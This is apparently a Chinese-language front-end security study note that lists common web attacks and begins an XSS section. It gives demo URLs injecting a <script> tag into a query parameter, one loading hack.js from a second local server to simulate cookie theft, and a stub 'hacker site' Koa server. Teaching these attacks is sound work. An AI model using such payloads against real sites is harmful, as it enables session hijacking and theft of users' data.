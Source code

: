 ```yaml
---
title: 前端网络安全整理
# description: ''
# slug:
# authors:
#  - name:
#    title:
#    url:
#    image_url:
tags: []
date: 2023-09-21T11:00
hide_table_of_contents: false
# image: ''
---
```


### 网络安全汇总

- XSS
- CSRF
- iframe 安全
- SQL 注入
- OS 注入
- 请求劫持
- DDOS

### 1、XSS

**XSS 危害**

- 利⽤虚假输⼊表单骗取⽤户个⼈信息。

- 利⽤脚本窃取⽤户的 Cookie 值，被害者在不知情的情况下，帮助攻击者发送恶意请求。

- 显示伪造的⽂章或图⽚。

**简单演示**

```
// 普通
http://localhost:3000/?from=china
// alert尝试
http://localhost:3000/?from=<script>alert(3)</script>
// 如果可以弹出3,证明这个输入框没有过滤html标记
```

模拟获取 cookie

```
http://localhost:3000/?from=<script src="http://localhost:4000/hack.js">
```

后台代码

```js
const koa = require("koa"); // 启动在4000端口上
const chalk = require("chalk");
const log = (contents) => {
  console.log(chalk.red(contents)); //打印cookie
};

// 模拟黑客网站
const app = new koa();

module.exports = app;
```

